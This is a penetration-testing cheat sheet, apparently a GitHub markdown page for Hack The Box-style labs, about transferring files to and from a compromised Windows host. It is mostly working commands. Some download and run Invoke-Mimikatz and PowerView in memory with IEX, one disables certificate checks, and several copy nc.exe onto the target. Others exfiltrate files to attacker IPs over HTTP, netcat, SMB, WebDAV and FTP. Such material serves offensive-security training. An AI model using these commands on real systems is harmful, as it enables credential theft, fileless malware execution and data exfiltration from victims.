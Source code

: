 # Content
- [Download Operations](#download-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode)
  - [PowerShell HTTP Downloads](#2-powershell-http-downloads)
  - [PowerShell SMB Downloads](#3-powershell-smb-downloads)
  - [PowerShell FTP Downloads](#4-powershell-ftp-downloads)
- [Upload Operations](#upload-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode-1)
  - [PowerShell HTTP Upload](#2-powershell-http-upload)
  - [PowerShell SMB Uploads](#3-powershell-smb-uploads)
  - [PowerShell FTP Uploads](#4-powershell-ftp-uploads)

- [Living off The Land](#living-off-the-land)

# Download Operations

## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```

## CMD 

```cmd 
certutil -urlcache -split -f https://server/file.txt c:\file.txt


powershell  wget http://10.10.14.2/tool.py -o tool.py 
```

# Upload Operations

## 1) PowerShell Base64 Encode & Decode

- encode file
```powershell
PS C:\user> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\user> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
- paste it to decode
```bash
KiroMaged@htb[/htb]$ echo <base64>| base64 -d > hosts
```

## 2) PowerShell HTTP Upload

### Invoke-FileUpload to Python Upload Server
- listen 
```bash
$ python3 -m uploadserver 9999
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```
-  send req
```powershell
PS C:\user> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\user> Invoke-FileUpload -Uri http://172.24.121.19:9999/upload -File C:\Windows\System32\drivers\etc\hosts

```

### PowerShell Base64 Web Upload
- listen  
```bash
$  nc -lvnp 8000
listening on [any] 8000 ...
```
-  send req
```powershell
PS C:\user> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\user> Invoke-WebRequest -Uri http://172.24.121.19:8000/ -Method POST -Body $b64
```

## 3) PowerShell SMB Uploads

- most encrionment will prevent outgoing smb connection so we can use The WebDAV protocol , which enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.

- other than that we can use the same method in download section
```bash
$ sudo pip install wsgidav cheroot
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
PS C:\user> dir \\192.168.49.128\DavWWWRoot

PS C:\user> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

## 4) PowerShell FTP Uploads

```bash 
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
PS C:\user> echo open 192.168.49.128 > ftpcommand.txt
PS C:\user> echo USER anonymous >> ftpcommand.txt
PS C:\user> echo binary >> ftpcommand.txt
PS C:\user> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
PS C:\user> echo bye >> ftpcommand.txt
PS C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```


# Living off The Land
check in [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/#) and search for upload and download
